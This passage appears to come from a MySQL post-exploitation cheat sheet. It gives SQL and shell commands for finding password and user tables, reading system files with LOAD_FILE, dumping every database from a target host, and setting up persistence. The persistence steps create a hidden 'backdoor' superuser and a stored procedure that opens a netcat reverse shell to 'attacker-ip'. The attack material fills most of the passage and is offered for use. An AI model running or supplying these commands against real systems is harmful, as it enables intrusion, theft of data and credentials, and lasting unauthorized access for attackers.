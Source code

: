 ```sql
SELECT table_name FROM information_schema.tables WHERE table_name LIKE '%pass%';
SELECT table_name FROM information_schema.tables WHERE table_name LIKE '%user%';
SELECT table_name FROM information_schema.tables WHERE table_name LIKE '%admin%';
```

### System Information Gathering
```sql
-- System information through MySQL
SELECT @@version_compile_os;
SELECT @@basedir;
SELECT @@datadir;
SELECT @@tmpdir;

-- Environment variables
SHOW VARIABLES LIKE 'hostname';
SHOW VARIABLES LIKE 'port';

-- Current working directory
SELECT @@basedir;

-- File system information
SELECT LOAD_FILE('/proc/cpuinfo');
SELECT LOAD_FILE('/proc/meminfo');
SELECT LOAD_FILE('/etc/issue');
```

### Data Extraction
```sql
-- Dump entire databases
mysqldump -h <target-ip> -u root -p<password> --all-databases > all_databases.sql

-- Specific database dump
mysqldump -h <target-ip> -u root -p<password> database_name > database.sql

-- Table-specific dumps
mysqldump -h <target-ip> -u root -p<password> database_name table_name > table.sql

-- Export to CSV
SELECT * FROM users INTO OUTFILE '/tmp/users.csv' FIELDS TERMINATED BY ',' ENCLOSED BY '"';
```

### Persistence Establishment

#### Database-Level Persistence
```sql
-- Create backdoor user
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'SecurePass123';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;

-- Create hidden stored procedure
DELIMITER $$
CREATE PROCEDURE hidden_backdoor()
BEGIN
    DECLARE cmd VARCHAR(255);
    SET cmd = 'nc attacker-ip 4444 -e /bin/bash';
    SET @sql = CONCAT('SELECT sys_exec(''', cmd, ''')');
    PREPARE stmt FROM @sql;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END$$
DELIMITER ;

```